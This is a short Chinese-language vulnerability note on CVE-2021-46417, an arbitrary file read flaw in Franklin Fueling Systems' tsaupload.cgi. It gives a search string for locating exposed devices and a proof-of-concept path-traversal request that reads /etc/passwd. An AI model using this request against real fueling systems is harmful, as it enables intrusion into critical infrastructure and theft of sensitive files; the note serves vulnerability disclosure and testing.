

# Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## 网络测绘

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面


验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```



